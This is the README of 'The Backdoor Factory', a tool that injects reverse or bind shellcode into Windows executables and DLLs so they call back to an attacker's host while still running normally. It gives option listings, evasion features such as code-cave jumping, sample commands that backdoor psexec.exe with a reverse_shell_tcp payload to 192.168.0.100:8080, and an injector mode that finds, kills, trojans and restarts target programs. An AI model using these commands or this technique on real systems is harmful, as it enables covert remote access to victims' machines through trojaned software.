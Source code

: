 ##The Backdoor Factory
Injects shellcode into win32/64 PE files, to continue normal file execution (if the shellcode supports it), by patching the exe/dll directly.

Some executables have built in protections, as such this will not work on all PE files.  It is advisable that you test target PE files before deploying them to clients or using them in exercises.

Recently tested on all 32/64bit Sysinternal tools and Chrome browser.
---

Usage: ./backdoor.py -h

Usage: backdoor.py [options]

Options:
  -h, --help            show this help message and exit
  
  -f FILE, --file=FILE  File to backdoor
  
  -s SHELL, --shell=SHELL
                        Payloads that are available for use.
  
  -H HOST, --hostip=HOST
                        IP of the C2 for reverse connections
  
  -P PORT, --port=PORT  The port to either connect back to for reverse shells
                        or to listen on for bind shells
  
  -J, --cave_jumping    Select this options if you want to use code cave
                        jumping to further hide your shellcode in the binary.
  
  -a, --add_new_section
                        Mandating that a new section be added to the exe
                        (better success) but less av avoidance
  
  -U SUPPLIED_SHELLCODE, --user_shellcode=SUPPLIED_SHELLCODE
                        User supplied shellcode, make sure that it matches the
                        architecture that you are targeting.
  
  -c, --cave            The cave flag will find code caves that can be used
                        for stashing shellcode. This will print to all the
                        code caves of a specific size.The -l flag can be use
                        with this setting.
  
  -l SHELL_LEN, --shell_length=SHELL_LEN
                        For use with -c to help find code caves of different
                        sizes
  
  -o OUTPUT, --output-file=OUTPUT
                        The backdoor output file
  
  -n NSECTION, --section=NSECTION
                        New section name must be less than seven characters
  
  -d DIR, --directory=DIR
                        This is the location of the files that you want to
                        backdoor. You can make a directory of file backdooring
                        faster by forcing the attaching of a codecave to the
                        exe by using the -a setting.
  
  -w, --change_access   This flag changes the section that houses the codecave
                        to RWE. Sometimes this is necessary. Enabled by
                        default. If disabled, the backdoor may fail.
  
  -i, --injector        This command turns the backdoor factory in a hunt and
                        shellcode inject type of mechinism. Edit the target
                        settings in the injector module.
  
  -u SUFFIX, --suffix=SUFFIX
                        For use with injector, places a suffix on the original
                        file for easy recovery
  
  -D, --delete_original
                        For use with injector module.  This command deletes
                        the original file.  Not for use in production systems.
                        *Author not responsible for stupid uses.*
  
  -O DISK_OFFSET, --disk_offset=DISK_OFFSET
                        Starting point on disk offset, in bytes. Some authors
                        want to obfuscate their on disk offset to avoid
                        reverse engineering, if you find one of those files
                        use this flag, after you find the offset.
  
  -S, --support_check   To determine if the file is supported by BDF prior to
                        backdooring the file. For use by itself or with
                        verbose. This check happens automatically if the
                        backdooring is attempted.
  
  -q, --no_banner       Kills the banner.
  
  -v, --verbose         For debug information output.
---

Features:

-After making a copy of the target file, the file copy will be patched directly.

-Finding all codecaves in an EXE/DLL.

-Injecting modified reverse/bind shells that allow continued execution after connection to the attacker.

-Modifying the PE/COFF header to add an additional section for all win32 executables/dlls, including those with an import table.

-Using the existing shellcode options, the ability to select PORT and HOST as connection options

-The ability to backdoor a directory of executables/dlls

---------------------------------------------
Sample Usage:

#Backdoor a exe/dll using an existing code cave:

./backdoor.py -f psexec.exe -H 192.168.0.100 -P 8080 -s reverse_shell_tcp 

[*] In the backdoor module

[*] Checking if binary is supported

[*] Gathering file info

[*] Reading win32 entry instructions

[*] Looking for and setting selected shellcode

[*] Creating win32 resume execution stub

[*] Looking for caves that will fit the minimum shellcode length of 402

[*] All caves lengths:  (402,)

############################################################

The following caves can be used to inject code and possibly

continue execution.

**Don't like what you see? Use jump, single, or append.**

############################################################

[*] Cave 1 length as int: 402

[*] Available caves:

1. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d2d5 End: 0x2d4d0; Cave Size: 507

2. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d4e9 End: 0x2d6d5; Cave Size: 492

3. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d6e3 End: 0x2d8d8; Cave Size: 501

4. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d8f1 End: 0x2dadd; Cave Size: 492

5. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2dae7 End: 0x2dce0; Cave Size: 505

6. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2dcf3 End: 0x2dee5; Cave Size: 498

7. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2defb End: 0x2e0ea; Cave Size: 495

8. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2e161 End: 0x2e390; Cave Size: 559

9. Section Name: .rsrc; Section Begin: 0x2f200 End: 0x5bc00; Cave begin: 0x58a39 End: 0x58c68; Cave Size: 559

**************************************************

[!] Enter your selection: 5

Using selection: 5

[*] Changing Section Flags

[*] Patching initial entry instructions

[*] Creating win32 resume execution stub

[*] psexec.exe backdooring complete

File psexec.exe is in the 'backdoored' directory

---

#Backdoor an exe/dll by adding a code section:

./backdoor.py -f psexec.exe -H 192.168.0.100 -P 8080 -s reverse_shell_tcp -a 

Adding a new section to the exe/dll for shellcode injection

psexec.exe backdooring complete

File bd.psexec.exe is in current directory

---
#Backdoor a directory of exes:
./backdoor.py -d test/ -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -a


...output too long for README...

---
#Hunt and backdoor: Injector
The injector module will look for target executables to backdoor on disk.  It will check to see if you have identified the target as a service, check to see if the process is running, kill the process and/or service, inject the executable with the shellcode, save the original file to either file.exe.old or another suffix of choice, and attempt to restart the process or service.  
Edit the python dictionary "list_of_targets" in the 'injector' module for targets of your choosing.

./backdoor.py -i -H 192.168.0.100 -P 8080 -s reverse_shell_tcp -a -u .moocowwow 
